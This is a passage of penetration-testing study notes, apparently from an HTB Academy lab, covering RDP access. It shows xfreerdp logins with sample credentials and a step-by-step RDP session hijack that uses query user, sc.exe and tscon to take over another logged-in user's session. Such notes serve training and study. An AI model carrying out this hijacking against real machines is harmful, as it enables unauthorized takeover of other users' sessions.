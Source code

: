 ### 2. xfreerdp Client
```bash
# Modern FreeRDP connection
xfreerdp /u:administrator /p:password123 /v:192.168.2.143

# With additional features
xfreerdp /u:admin /p:password123 /v:192.168.2.143 /dynamic-resolution /clipboard

# Ignore certificate errors
xfreerdp /u:admin /p:password123 /v:192.168.2.143 /cert-ignore
```

---

## 👤 Protocol Specific Attacks

### 1. RDP Session Hijacking

#### Attack Prerequisites
```
✅ Local Administrator privileges on target machine
✅ Another user connected via RDP
✅ SYSTEM-level access capability
✅ Windows Server 2016 or earlier (patched in 2019)
```

#### HTB Academy Session Hijacking Example

##### Step 1: Identify Active Sessions
```cmd
# Query current RDP sessions
C:\htb> query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM
```

##### Step 2: Create Hijacking Service
```cmd
# Create Windows service for session hijacking
C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

[SC] CreateService SUCCESS
```

##### Step 3: Execute Session Hijack
```cmd
# Start the hijacking service
C:\htb> net start sessionhijack

# Result: New terminal opens with hijacked user session (lewen)
```

